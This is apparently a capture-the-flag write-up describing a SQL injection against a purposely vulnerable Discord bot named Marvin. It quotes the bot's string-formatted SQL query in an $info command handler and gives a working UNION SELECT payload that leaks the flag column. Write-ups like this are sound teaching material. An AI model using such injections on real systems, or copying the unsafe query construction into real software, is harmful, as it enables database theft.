 # Marvin

This was a discord bot sql injection challenge.
We got the github for the marvin bot with vulnerabilities in it. The bot would take DM's and respond to the user based on those DM's. The sql file indicates where the flag is saved:
```
CREATE TABLE challenges (
	chal_id INT(11) NOT NULL AUTO_INCREMENT PRIMARY KEY,
	flag VARCHAR(150),
	points INT(11),
	name VARCHAR(50),
	download VARCHAR(150),
	access VARCHAR(150),
	description VARCHAR(1000),
	category VARCHAR(20),
	release_time TIMESTAMP,
	num_weeks INT(11)
);
```
We want to try to get what's in the flag table for the marvin challenge. So we can use the api to do that.
In the `Member.py` file there's a function that takes in the user command `$info` that responds to the user with information directly correlated to the user input. This is the optimal command to attack in this challenge.
```
@commands.command(name='info', help='gets info for a specified challenge')
async def info(self, ctx, name):
	# check that user is verified
	if not await self.is_verified(ctx):
	return

	chal_details = self.db.sql_fetchone("SELECT name,category,points,download,access,description FROM challenges WHERE name='%s'" % name)

	if(not chal_details):
		await ctx.send("chal not found")
		return

	labels = ["NAME", "CATEGORY", "POINTS", "DOWNLOAD LINK", "ACCESS", "DESCRIPTION"]
	await ctx.send("\n".join([labels[i] + ": " + str(chal_details[i]) for i in range(len(labels))]))
```
If we craft an injection to copy the sql request but instead include the flag in the request, we can get a response with the flag in it.

`$info " marvin' UNION SELECT name,category,flag,download,access,description FROM challenges WHERE name='marvin"`

The marvin in there is to tell the request to look where the name is the name of our current challenge. With a `UNION` command the number of columns needs to match the number of tables in the original request. Copying the original request would select all the same columns, but instead of grabbing the points, you grab the flag.

